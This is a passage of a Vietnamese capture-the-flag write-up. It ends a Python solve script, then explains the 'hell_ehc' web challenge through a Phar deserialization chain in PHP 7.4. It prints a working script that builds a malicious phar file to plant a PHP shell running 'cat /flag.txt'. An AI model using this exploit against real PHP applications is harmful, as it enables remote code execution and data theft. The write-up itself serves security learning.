 ```python

session = requests.Session()
r = session.get(URL)

candidate = unshuffle(target, RANDOM_SEED)
r = session.get(URL + "api/cast_attack", params={"attack_name": candidate})
print(r.text)
```

## Web/hell_ehc

Chúng ta có thể thấy class Logger có khả năng ghi vào file -> ghi vào file PHP -> RCE

```php
class Logger
{
    public function __destruct()
    {
        $request_log = fopen($this->logs , "a");
        fwrite($request_log, $this->request);
        fwrite($request_log, "\r\n");
        fclose($request_log);
    }
}
```

Nhưng unserialize() chỉ chấp nhận hàm LogFile và User. Ngó lại hàm LogFile có thể thấy một file access function

```php
class LogFile
{
    public $filename;
    
    public function __destruct()
    {
        return md5_file($this->filename);
    }
}
```

Cộng thêm với việc server sử dụng PHP7.4 nên mình chắc chắn đây là lỗi Phar Deserialization

Script tạo phar file

```php
<?php
class Logger {
	public $logs = "./logMD5.php";
	public $request = "<?php system('cat /flag.txt');?>";
}
$obj = new Logger();
$phar = new Phar("aaa.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();
?>
```
